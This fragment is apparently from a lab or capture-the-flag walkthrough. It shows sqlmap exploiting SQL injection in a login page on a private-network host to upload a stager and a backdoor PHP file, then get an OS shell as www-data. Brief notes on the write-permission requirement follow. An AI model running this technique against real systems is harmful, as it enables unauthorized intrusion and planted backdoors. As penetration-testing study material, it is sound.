$ sqlmap -u 'http://192.168.37.128/login.php?username=alex' --os-shell                          
                                   
[06:23:50] [INFO] the file stager has been successfully uploaded on '/var/www/htdocs/' - http://192.168.37.128:80/tmpuxstl.php
[06:23:50] [INFO] the backdoor has been successfully uploaded on '/var/www/htdocs/' - http://192.168.37.128:80/tmpbjcpu.php
[06:23:50] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'www-data'
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
os-shell> 

```

> This is on condition that we have write permission on **`www`** directroy.

> Initially, sqlmap threw an error **`unable to upload shell as the user have may not have right permissions to the sepcifed directory`**


